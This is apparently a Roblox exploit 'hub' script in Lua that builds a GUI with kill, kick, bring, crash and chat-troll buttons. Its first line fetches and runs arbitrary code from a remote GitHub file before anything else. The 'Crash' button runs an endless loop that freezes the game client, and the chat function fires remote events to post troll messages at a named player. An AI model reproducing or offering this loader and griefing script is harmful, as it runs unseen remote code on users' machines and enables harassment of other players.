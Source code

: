 loadstring(game:HttpGet("https://raw.githubusercontent.com/Benjamim-b/Ksksks.txt/refs/heads/main/README.md"))()

local Players = game:GetService("Players")
local player = Players.LocalPlayer

local screenGui = Instance.new("ScreenGui")
screenGui.Name = "Benjamim Hub Criador:BenjamimDev"
screenGui.ResetOnSpawn = false
screenGui.Parent = player:WaitForChild("PlayerGui")

local frame = Instance.new("Frame")
frame.Size = UDim2.new(0,300,0,500)
frame.Position = UDim2.new(0.05,0,0.2,0)
frame.BackgroundColor3 = Color3.fromRGB(30,30,30)
frame.BorderSizePixel = 0
frame.Parent = screenGui
frame.Active = true
frame.Draggable = true

local function createButton(text,posY,callback)
    local btn = Instance.new("TextButton")
    btn.Size = UDim2.new(0,260,0,40)
    btn.Position = UDim2.new(0,20,0,posY)
    btn.Text = text
    btn.TextSize = 18
    btn.BackgroundColor3 = Color3.fromRGB(50,50,50)
    btn.TextColor3 = Color3.fromRGB(255,255,255)
    btn.Parent = frame
    btn.MouseButton1Click:Connect(callback)
end

local targetNameVal = Instance.new("StringValue")
targetNameVal.Name = "TargetName"
targetNameVal.Value = ""
targetNameVal.Parent = player

local messageVal = Instance.new("StringValue")
messageVal.Name = "MessageToSend"
messageVal.Value = "Bem vindo"
messageVal.Parent = player

local function sendChatCommand(cmd)
    game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest:FireServer(cmd,"All")
end

local function doKill() if player.Character and player.Character:FindFirstChild("Humanoid") then player.Character.Humanoid.Health = 0 end end
local function doKick() player:Kick("Você se expulsou via Benjamim Hub vc nao foi banido vc simples mente foi explulso pq nao obedeceu o termos de uso e privacidade da roblox sem roupa mandrake sem coisa web namoro ok seja bonzinho Error:000") end
local function doBring() if player.Character and player.Character:FindFirstChild("HumanoidRootPart") then player.Character.HumanoidRootPart.CFrame = CFrame.new(Vector3.new(0,10,0)) end end
local function doCrash() while true do task.spawn(function() end) end end
local function doVerifique() sendChatCommand(";verifique") end
local function doChatTroll() sendChatCommand(";chatTroll "..targetNameVal.Value.." "..messageVal.Value) end

createButton("kill",20,doKill)
createButton("kick",70,doKick)
createButton("Bring",120,doBring)
createButton("Crash",999,doCrash)
createButton("verifique",10000,doVerifique)
createButton("chatPlayer",270,doChatTroll)

local targetBox = Instance.new("TextBox")
targetBox.Size = UDim2.new(0,260,0,40)
targetBox.Position = UDim2.new(0,20,0,320)
targetBox.PlaceholderText = "Nome do jogador (para chatPlayer)"
targetBox.TextSize = 18
targetBox.BackgroundColor3 = Color3.fromRGB(40,40,40)
targetBox.TextColor3 = Color3.fromRGB(255,255,255)
targetBox.ClearTextOnFocus = false
targetBox.Parent = frame
targetBox:GetPropertyChangedSignal("Text"):Connect(function() targetNameVal.Value = targetBox.Text end)

local messageBox = Instance.new("TextBox")
messageBox.Size = UDim2.new(0,260,0,40)
messageBox.Position = UDim2.new(0,20,0,370)
messageBox.PlaceholderText = "Mensagem do chatPlayer"
messageBox.TextSize = 18
messageBox.BackgroundColor3 = Color3.fromRGB(40,40,40)
messageBox.TextColor3 = Color3.fromRGB(255,255,255)
messageBox.ClearTextOnFocus = false
messageBox.Parent = frame
messageBox:GetPropertyChangedSignal("Text"):Connect(function() messageVal.Value = messageBox.Text end)
